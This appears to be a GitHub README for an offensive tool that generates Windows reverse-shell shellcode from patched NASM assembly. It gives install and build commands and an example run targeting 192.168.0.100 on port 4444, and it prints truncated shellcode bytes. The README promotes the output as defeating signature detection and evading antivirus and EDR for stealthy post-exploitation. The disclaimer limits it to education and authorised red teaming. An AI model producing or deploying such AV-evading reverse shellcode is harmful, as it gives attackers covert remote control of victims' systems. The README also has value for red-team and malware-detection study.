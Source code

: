 # 💀 ShellcodeGenerator

> A powerful Linux-based utility to generate customized Windows reverse shellcode directly from inline x86 NASM assembly.

![ShellcodeGenerator Banner](https://img.shields.io/badge/NASM-Shellcode-orange?style=flat-square&logo=nasm)
![Platform](https://img.shields.io/badge/Platform-Windows-blue?style=flat-square&logo=windows)
![Language](https://img.shields.io/badge/Language-Nim-yellow?style=flat-square&logo=nim)

---

## 🚀 About

**ShellcodeGenerator** is a custom tool written in **Nim** that dynamically patches IP and port values into hand-crafted x86 assembly shellcode (NASM syntax) for **Windows reverse shells**.

It compiles and links the shellcode into a PE binary (`.exe`) and extracts printable shellcode bytes suitable for exploitation tasks, malware research, or CTFs.

---

## 📦 Features

✅ Patch any IP address and port into shellcode  
✅ Fully x86 NASM compatible  
✅ Generates raw shellcode from compiled `.exe`  
✅ Written in Nim for speed and flexibility  
✅ Linux-only for ethical red teaming and malware research  
✅ Highlights correct little-endian formatting for network values

---

## ✅ Advantages

- 🔓 **Non-Signature Shellcode**  
  The generated shellcode does **not rely on common payload templates**, making it **unique on every run**. This effectively defeats most static signature-based detection techniques.

- 🛡️ **Bypasses Antivirus (AV) Engines**  
  Due to its polymorphic nature and absence of known patterns, this shellcode can evade many modern **AV and EDR solutions**, making it ideal for red team operations and stealthy post-exploitation.

- 🧬 **No External Dependencies**  
  Fully self-contained: no Metasploit, no PowerShell, no external loaders—pure, raw shellcode.

- 🎯 **Precision Targeting**  
  Configurable target IP and port are directly embedded in little-endian format at compile time, reducing runtime footprint.

---

## 🧪 Requirements

- Linux OS (any distro)
- [`nasm`](https://www.nasm.us/) — Netwide Assembler
- [`ld`](https://linux.die.net/man/1/ld) — GNU linker
- Nim Compiler (`nim`)

---

## ⚙️ Installation

Install Nim:
```bash
sudo apt install nim
```

Install Nasm and LD 
```bash
sudo apt install nasm binutils
```

Clone The Repository
```bash
git clone https://github.com/Raulisr00t/ShellcodeGenerator.git
cd ShellcodeGenerator
```

## 🛠️ Usage
```bash
nim c -d:release generator.nim
./generator <IP> <PORT>
```

Example
```bash
./generator 192.168.0.100 4444
```

Output:
```bash
[*] Replacing IP with: 0x6400a8c0
[*] Replacing PORT with: 0x5c11
[+] Written modified assembly to root.nasm
[+] Assemble root.nasm
[+] Linking
[+] Done !
Printing Shellcode
"\x31\xc9\x89\x00\x00\x00..."
```

## 📂 File Structure
```bash
.
├── generator.nim      # Main tool logic
├── root.nasm          # Modified NASM shellcode (auto-generated)
├── reverse.exe        # Compiled shellcode payload (auto-generated)
└── README.md          # Documentation
```

## 🧠 How It Works
Assembly Template: Inline NASM with placeholders for IP and port
Patch Engine: Replaces relevant lines using regex with correct little-endian values
Shellcode Extraction: Uses objdump and shell pipelines to extract clean, printable shellcode

## 🔐 Disclaimer
This tool is intended for educational purposes, malware research, and red teaming only.
You are solely responsible for how you use this code.
Do not deploy against systems you do not own or have explicit permission to test.

## ✨ Author
Developed by Raul
Drop a ⭐ if this helped you — and hack responsibly!
